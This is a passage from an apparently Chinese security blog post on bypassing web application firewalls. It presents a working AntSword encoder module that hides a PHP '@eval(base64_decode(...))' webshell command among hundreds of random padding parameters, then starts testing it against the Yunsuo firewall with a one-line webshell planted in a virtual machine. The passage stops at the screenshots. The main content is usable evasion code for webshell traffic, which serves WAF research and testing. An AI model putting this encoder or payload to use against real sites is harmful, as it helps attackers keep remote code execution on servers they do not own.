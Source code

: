 那么怎么用呢

很简单，就直接把这段代码放到普通编码器里就可以了，这里以最基础的也是被各类WAF杀得妈都不认的base64编码器为例

```
'use strict';
/*
code by yzddMr6
*/
module.exports = (pwd, data, ext = {}) => {
  let varname_min = 5;
  let varname_max = 15;
  let data_min = 200;
  let data_max = 250;
  let num_min = 100;
  let num_max = 200;
  let randomID = `_0x${Math.random().toString(16).substr(2)}`;
  data[randomID] = Buffer.from(data['_']).toString('base64');
  function randomString(length) {
    //let chars='0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    let chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    let result = '';
    for (let i = length; i > 0; --i) result += chars[Math.floor(Math.random() * chars.length)];
    return result;
  }
  function randomInt(min, max) {
    return parseInt(Math.random() * (max - min + 1) + min, 10);
  }
  for (let i = 0; i < randomInt(num_min, num_max); i++) {
    data[randomString(randomInt(varname_min, varname_max))] = randomString(randomInt(data_min, data_max));
  }
  data[pwd] = `@eval(base64_decode($_POST[${randomID}]));`;
  delete data['_'];
  return data;
}
```

### 过云锁测试

本来想用安全狗，结果发现好像免费版不能拦截一句话。

那就用云锁开刀吧。

首先在虚拟机里放个一句话，就用某辣鸡项目生成的

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369455-b57aa2d5-3b90-45f6-b9c4-c9cb1ed70914.png)

可以正常运行

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369538-70a55a46-56a0-40b8-ac62-c252510baa44.png)

然后使用蚁剑默认的base64编码器连接试一下

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369645-e9227333-70e6-41c2-8262-b785424db16a.png)
